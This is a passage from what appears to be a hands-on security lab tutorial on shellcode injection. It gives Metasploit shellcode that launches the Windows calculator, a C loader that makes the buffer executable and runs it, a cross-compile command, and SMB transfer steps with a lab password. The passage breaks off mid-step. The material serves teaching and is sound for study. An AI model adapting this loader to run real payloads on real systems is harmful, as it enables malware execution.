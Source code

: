 As a result, the Metasploit framework generates a shellcode that executes the Windows calculator (calc.exe). The Windows calculator is widely used as an example in the Malware development process to show a proof of concept. If the technique works, then a new instance of the Windows calculator pops up. This confirms that any executable shellcode works with the method used.  

## Shellcode injection

Hackers inject shellcode into a running or new thread and process using various techniques. Shellcode injection techniques modify the program's execution flow to update registers and functions of the program to execute the attacker's own code.

Now let's continue using the generated shellcode and execute it on the operating system. The following is a C code containing our generated shellcode which will be injected into memory and will execute "calc.exe".

On the AttackBox, let's save the following in a file named `calc.c`:

```c
#include <windows.h>
char stager[] = {
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00" };
int main()
{
        DWORD oldProtect;
        VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
        int (*shellcode)() = (int(*)())(void*)stager;
        shellcode();
}
```

Now let's compile it as an exe file:

Compile our C program for Windows

```shell-session
user@AttackBox$ i686-w64-mingw32-gcc calc.c -o calc-MSF.exe
```

Once we have our exe file, let's transfer it to the Windows machine and execute it. To transfer the file you can use smbclient from your AttackBox to access the SMB share at \\10.10.61.104\Tools with the following commands (remember the password for the `thm` user is `Password321`):

Copy calc-MSC.exe to Windows Machine
